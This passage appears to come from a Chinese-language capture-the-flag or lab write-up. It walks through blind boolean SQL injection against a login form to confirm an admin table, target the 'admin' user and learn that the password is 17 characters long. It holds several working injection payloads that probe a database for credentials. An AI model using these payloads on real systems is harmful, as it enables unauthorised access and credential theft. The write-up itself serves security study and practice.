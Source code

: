 ![](img/bfe08eae2a9764e830ac1f8755f5b0dc.png)

## 查找管理员密码

可以通过查询来确认列名

```
' and (SELECT (CASE WHEN EXISTS(SELECT password FROM admin ) THEN 1 ELSE 0 END)) =1 #
```

我还检查了 admin 表中有多少行。结果是 1。因此必须找出用户“admin”的密码(再次猜测，可以使用查询再次确认

```
' and (SELECT (CASE WHEN EXISTS(SELECT password FROM admin WHERE username = 'admin') THEN 1 ELSE 0 END)) =1 #
```

现在我们需要找出密码的长度。

```
' and (SELECT (CASE WHEN EXISTS(SELECT password FROM admin WHERE username = 'admin' and length(password) = 17 ) THEN 1 ELSE 0 END)) =1 #
```

admin 的密码长度是 17。
